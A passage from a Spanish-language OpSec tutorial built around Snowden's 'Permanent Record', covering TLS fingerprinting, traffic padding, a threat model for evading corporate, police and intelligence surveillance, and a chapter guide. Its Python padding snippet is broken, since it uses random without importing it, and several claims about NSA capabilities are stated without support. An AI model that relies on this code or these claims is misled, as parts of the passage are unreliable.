Esto hace tu DHCP fingerprint más genérico, pero no perfectamente random.

### 4.2 TLS/SSL Fingerprinting (JA3)

Incluso si todo tu tráfico va cifrado vía TLS, el **handshake TLS** contiene fingerprints identificables.

JA3 es una técnica que crea hash del:
- TLS version
- Cipher suites soportados (en orden)
- Extensiones TLS
- Elliptic curves
- EC point formats

Ejemplo de JA3 hash:
```
JA3: e7d705a3286e19ea42f587b344ee6865
→ Client es Chrome 98 en Windows 10
```

Aunque uses VPN o Tor, si tu cliente TLS tiene JA3 hash específico, eres rastreable a través de sesiones.

**Mitigación:**

Usar herramientas que implementan TLS con fingerprints menos únicos:
- `curl` con configuraciones customizadas de cipher suites
- `wget` con opciones de TLS modificadas
- Navegadores en modo incógnito (pero no cambia mucho JA3)

Mejor opción: Tor Browser, que normaliza JA3 para que todos los usuarios tengan mismo fingerprint.

### 4.3 Timing Attacks y Traffic Analysis

Incluso con todo cifrado end-to-end, el **patrón de tráfico** puede revelar información.

Si subes chunks de exactamente 512 KB cada uno:
```
Traffic pattern observed:
10:00:00 - 512 KB upload
10:15:00 - 512 KB upload
10:30:00 - 512 KB upload
```

Correlación es obvia. Contramedida: Traffic padding y randomización de tamaños:

```python
import os

def pad_chunk_random(chunk_data, min_size=512*1024, max_size=2*1024*1024):
    """Añade padding aleatorio a chunk para ofuscar tamaño real"""
    current_size = len(chunk_data)
    target_size = random.randint(min_size, max_size)

    if current_size < target_size:
        padding = os.urandom(target_size - current_size)
        return chunk_data + padding
    return chunk_data
```

Además, envía tráfico dummy entre chunks reales:

```bash
# Entre uploads reales, hacer requests dummy
while true; do
    curl -s https://www.google.com > /dev/null
    sleep $((RANDOM % 30 + 10))  # 10-40 segundos
done
```

Esto hace traffic analysis mucho más difícil.


*Capas de seguridad operacional que deben implementarse simultáneamente para verdadero anonimato.*

---

## Parte V: Recomendaciones y Conclusiones

### 5.1 Capítulos Relevantes de "Permanent Record" para Estudio Profundo

Si vas a estudiar el libro de Snowden desde perspectiva técnica de OpSec, estos son los capítulos más relevantes:

**Capítulo 18 - "The Tunnel"**: Describe la infraestructura física de la NSA en Hawái donde Snowden trabajó. Detalles sobre cómo la NSA almacena exabytes de datos interceptados.

**Capítulo 19 - "The Invisible Box"**: Explica cómo XKEYSCORE funciona como motor de búsqueda sobre datos capturados. Crítico para entender la escala de búsqueda retrospectiva.

**Capítulo 22 - "Heartbeat"**: Snowden crea un programa llamado "Heartbeat" para indexar y buscar documentos clasificados. Es básicamente su propio mini-XKEYSCORE para encontrar evidencia de abuso.

**Capítulo 26 - "Hong Kong"**: Detalles operacionales de cómo Snowden exfiltró datos físicamente (SD cards), encriptación usada, y cómo evadió detección inicial.

**Capítulo 28 - "Lindsay Mills's Diary"**: Perspectiva de cómo la vigilancia post-revelación afectó a personas cercanas a Snowden. Útil para entender consecuencias de OpSec failure.

### 5.2 Threat Model: Niveles de Adversario

Tus técnicas de OpSec deben escalar según tu adversario:

**Nivel 1: Corporaciones (Google, ISPs)**
Defensa: VPN básica, uBlock Origin, Firefox con privacy tweaks
Suficiente para: Evitar advertising tracking, ISP snooping

**Nivel 2: Aplicación de Ley Local**
Defensa: Tor, Tails OS, MAC randomization, evitar redes conocidas
Suficiente para: Investigaciones locales sin cooperación internacional

**Nivel 3: Agencias de Inteligencia (NSA, GCHQ)**
Defensa: Todo lo anterior + airgapped devices, physical security, zero trust
Nota: Contra NSA-level adversary, **asumir compromiso eventual es inevitable**. El objetivo es delay y increase cost of attribution, no perfect anonymity (which doesn't exist).

Snowden explica que eligió revelarse públicamente en parte porque sabía que permanecer anónimo contra la NSA era imposible a largo plazo. La NSA tiene:
- Backdoors en hardware (Intel Management Engine, etc.)
- Correlación global de tráfico
- Recursos para romper la mayoría de cifrados con tiempo suficiente
- Cooperación internacional para obtener datos de ISPs

**Su estrategia:** Aceptar que será atrapado, pero hacer las revelaciones tan públicas que el costo de matarlo/desaparecerlo sea mayor que el beneficio. OpSec no era sobre permanecer oculto, sino sobre **sobrevivir el tiempo suficiente para publicar**.

### 5.3 Lecciones Finales

1. **La seguridad perfecta no existe**. Solo puedes incrementar el costo de ataque.

2. **Los metadatos son tan reveladores como el contenido**. MAC addresses, timing, locations, associations—todo cuenta.

3. **La tecnología por sí sola no es suficiente**. Necesitas disciplina operacional. Un solo error (conectarte desde tu casa una vez) puede deshacer meses de OpSec perfecto.

4. **El eslabón más débil suele ser humano**. Snowden se reveló porque sabía que proteger a Lindsay Mills era imposible si permanecía oculto. Considera el OpSec de las personas cercanas.

5. **"If you have something that you don't want anyone to know, maybe you shouldn't be doing it in the first place."** - Eric Schmidt (ex-CEO de Google). Esta frase resume perfectamente la mentalidad que los programas de vigilancia masiva intentan imponer. **Rechazar esta mentalidad es el primer acto de resistencia**.

---

## Referencias Técnicas

1. Snowden, Edward. *Permanent Record*. Metropolitan Books, 2019.

2. Martin, J., Mayberry, T., et al. "A Study of MAC Address Randomization in Mobile Devices and When it Fails." *Proceedings on Privacy Enhancing Technologies*, 2017.

3. Vanhoef, M., Matte, C., et al. "Why MAC Address Randomization is not Enough." *ACM ASIA CCS*, 2016.

4. Riggins, C., Rye, E. "Three Years Later: A Study of MAC Address Randomization In Mobile Devices And When It Succeeds." *PoPETs*, 2021.

5. Greenwald, Glenn. *No Place to Hide: Edward Snowden, the NSA, and the U.S. Surveillance State*. Metropolitan Books, 2014.

6. NSA ANT Catalog (leaked 2013). Collection of NSA hardware/software implants.

7. IETF Draft: "Randomized and Changing MAC Address." https://datatracker.ietf.org/doc/draft-ietf-madinas-mac-address-randomization/

8. Android Open Source Project. "MAC Randomization Behavior." https://source.android.com/docs/core/connect/wifi-mac-randomization-behavior

---

*Este documento es material educativo. Las técnicas descritas son para comprensión de vectores de ataque y defensa. El uso no autorizado de estas técnicas puede ser ilegal. Consulta las leyes locales antes de realizar pruebas de seguridad.*
